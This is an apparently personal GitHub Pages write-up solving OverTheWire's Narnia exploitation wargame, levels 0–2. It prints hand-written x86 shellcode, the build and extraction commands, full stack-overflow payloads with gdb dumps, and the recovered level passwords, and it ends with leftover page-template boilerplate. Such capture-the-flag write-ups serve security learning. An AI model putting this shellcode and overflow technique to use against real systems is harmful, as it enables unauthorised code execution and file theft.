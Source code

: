 ## Narnia Solutions

Here are short solutions I have written for Narnia levels. This is a wargame in overthewire.org. The main subject of the game is exploitation. I wrote only where I felt that there were not many sufficient solutions to the level.

### Narnia0

Well, I think that there are plany well written solutions for this level. I would like to mention, however, that the shellcode should be generated inside the shell (use python or ruby or perl, etc') because for some unusual reason, pasting a prepeared shellcode inside the shell **will not work**.


### Narnia1

To solve this level, we need to know assembly, x86 in this case (typing "lscpu" will reveal us the architecture and byte order, which are **important** for out shellcode). There are planty writeup's for this level, which most of them are incorrect (but I do recommand reading them in order to understand what is wrong), however. Moreover, I would advise you to learn how to write a shellcode in linux, because copying and pasting a shellcode from shell storm won't work in this case. So after we figure out that there is a buffer overflow with the enviromental variable, we want to inject our shellcode. Remeber, no null bytes and illegal chars!
Because spawning a regular shell won't work (the shell will be privileged with narnia1 user), we want to use the our vulnerability to open narnia2 password file. Let's dive into our shell code:
```
section .text
	global _start

_start:
	xor eax,eax
	push eax          ;end of the /bin/cat string
	push 0x7461632f
	push 0x6e69622f
	mov ebx, esp      ;ebx points to the start of the string
	push eax
	push 0x3261696e
	push 0x72616e2f
	push 0x73736170
	push 0x5f61696e
	push 0x72616e2f
	push 0x6374652f
	mov ecx, esp      ;ecx points to the start of the string (/etc/narnia_pass/narnia2)
  push eax          ;array has to end with null
	mov al, 11        ;we use execve syscall, numbered 11
	mov edx, esp      ;edx points to null (we don't need char *const envp[])
	push ecx          ;push the first arg (/etc/narnia_pass/narnia2)
	push ebx          ;push the second arg (/bin/cat
	mov ecx, esp      ;ecx points to array with two args
	int 0x80
```	
	
Now, we want to compile our code and link it, thus:
```nasm -f elf shell.asm -o shell.o
ld -m elf_i386 -s shell.o -o shell
```
(-m elf_i386 is not necessary, but was in my case)

Okay, let's extract our shellcode:
`for i in $(objdump -M intel -d shell | grep "^ "|cut -f2); do echo -n '\x'$i;done;echo`
and Wallah:
```
narnia1@narnia:~$ export EGG=`python -c "print('\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80')"`
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
nairiepecu
```

### Narnia2

Here, we are dealing with a classic buffer overflow once again. We can see that our buffer is limited, hence we can give a bigger input that exceeds our buffer size  (no input validation is done) and thus overwrite our return address from the main() function. This will allow us to jump into a place we control and execute our shellcode. I truly recommand reading phracks 'smashing the stack' article to gain better understanding of this attack: http://phrack.org/issues/49/14.html

Let's proceed to our soltuion:
First, we fire up gdb and give it an input which is bigger than expected and see what happens with our stack:
```
disas main
(we break on the address of ret, because we want to overwrite the return address)
b *0x080484b2(ret's_address, which is obviously different for everyone)
r $(python -c "print('a'*130)")
```
now let's check if our $ebp was or $esp were overwritten:
``` info reg ```
No, not yet. After trying for several times, input of 144*'a' will overwrite esp and eip (eip contains the return address).
Now, we want to overwrite the last 4 bytes with 'our' address (our controlled address). We will add our shellcode from the previous level and will change it slighlty (will read narnia3 file instead of narnia2). It's size is 59 bytes. Now, we want our controlled address be the address in the stack in which the injected shellcode starts. Therefore we will inject our shellcode and see where it starts, letting us to overwrite the eip address to point to the start of it:
```
r $(python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'aaaa')")
```
```
x/200wx $esp
0xffffd780:	0x616e2f61	0x61696e72	0x61610032	0x61616161
0xffffd790:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7d0:	0x61616161	0x61616161	0x31616161	0x2f6850c0
0xffffd7e0:	0x68746163	0x6e69622f	0x6850e389	0x3361696e
0xffffd7f0:	0x616e2f68	0x61706872	0x6e687373	0x685f6169
0xffffd800:	0x72616e2f	0x74652f68	0x50e18963	0xe2890bb0
0xffffd810:	0xe1895351	0x616180cd	0x58006161	0x535f4744
```
We can see that our shellcode starts at: 0xffffd7d0+B(11 in decimal)=0xffffd7db. Additionaly, we can see that eip is overwritten by our 4 extra bytes:
```
(gdb) info frame
Stack level 0, frame at 0xffffd5b4:
 eip = 0x61616161; saved eip = 0x0
 called by frame at 0xffffd5b8
 Arglist at 0xffffd5ac, args: 
 Locals at 0xffffd5ac, Previous frame's sp is 0xffffd5b4
 Saved registers:
  eip at 0xffffd5b0
```
Okay, now we know our injection code should be the following:
```
'a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff'
```
Let's get the password:
./narnia2 ``python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff')"``
and...........wallah:
vaequeezee

## Narnia 3-4
I don't think there is something special in these excercises. There are great write ups for them: http://tutorialsjunkie.blogspot.com/2018/02/overthewire-narnia-walkthrough.html
Side note: narnia4 uses a nope slide, which is an important technique to master.



- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/int3rsys/Narnia-solutions/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
